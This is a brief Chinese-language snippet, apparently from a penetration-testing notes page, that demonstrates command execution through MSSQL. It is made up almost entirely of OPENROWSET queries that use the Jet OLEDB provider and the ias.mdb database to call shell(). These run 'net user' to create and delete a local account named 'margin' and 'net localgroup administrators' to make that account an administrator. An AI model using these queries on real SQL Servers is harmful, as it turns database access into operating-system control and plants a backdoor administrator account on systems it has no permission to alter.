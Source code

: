 





-- 执 行 系 统 命 令

```mssql
select * from
openrowset('microsoft.jet.oledb.4.0',';database=c:/windows/system32/ias/ias.mdb','select shell("net user margin margin /add")')

```



执行系统命令之后

![](image60/60-41.png)

其他操作语句

```mssql
select * from
openrowset('microsoft.jet.oledb.4.0',';database=c:/windows/system32/ias/ias.mdb','select shell("net user margin margin /del")')

select * from
openrowset('microsoft.jet.oledb.4.0',';database=c:/windows/system32/ias/ias.mdb','select shell("net localgroup administrators margin /add")')
```


